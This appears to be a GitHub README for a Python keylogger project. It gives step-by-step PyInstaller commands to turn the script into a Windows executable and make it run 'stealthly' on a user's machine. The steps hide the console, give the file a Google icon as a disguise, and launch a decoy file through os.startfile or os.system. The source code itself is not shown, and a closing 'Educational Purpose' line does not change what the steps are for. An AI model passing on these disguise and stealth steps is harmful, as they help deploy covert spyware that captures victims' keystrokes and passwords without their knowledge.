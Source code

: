 # Keylogger-Python

#### **This program is use to record the keystroke of the user, as this program has launch in the user\'s local machine.**



**I recommend you to use \"PyInstaller\" as your third-party compiler, if you want it to use this as a executable file and stealthly use it in the user\'s local machine.**



Type this in your Command Prompt or Powershell:

```bash
pip install pyinstaller
```

Or this:

```bash
pip3 install pyinstaller
```



If this command is doesn\'t work, use this command instead:

```bash
py -m pip install pyinstaller
```

Or this:

```bash
py -m pip3 install pyinstaller
```



If you want it to compile \"keylogger.py\" source code, type this following command:

```bash
pyinstaller keylogger.py -F
```

With icon:

```bash
pyinstaller keylogger.py -F -i google.png
```



If with this error has appeared in your console:

```bash
ValueError: Received icon image 'C:\Users\google.png' which exists but is not in the correct format. On this platform, only ('exe', 'ico') images may be used as icons. If Pillow is installed, automatic conversion will be attempted. Please install Pillow or convert your 'png' file to one of ('exe', 'ico') and try again.
```




Then type this in your console:

```bash
py -m pip install Pillow
```


This allows \"PyInstaller\" to convert the non-icon picture file into \".ico\" file, in order to apply this in your program.

Type the command again, to make sure that this is more effective in creating an icon in the program. You can also use an .exe file, as you wish also to get and use the icon of an .exe file.



*Note: As this source has been compiled, .spec file, build and dist directory, will exist in your current directory. The .exe compiled source code is in \".\dist\\\".*




To make the program stealthly progressing in the user\'s local machine, type this command:
```bash
pyinstaller keylogger.py -F --bootloader-ignore-signals --disable-windowed-traceback --noconsole --nowindowed
```



Its more stealthy, if this code was added in \"keylogger.py\"
```python
os.startfile("<filename>")
```
Or:
```python
os.system("<filename>")
```


\****This is only for Educational Purpose****



**Author: Arley-Techie**

**Github Repository: https://github.com/Arley-Techie/keylogger-python**
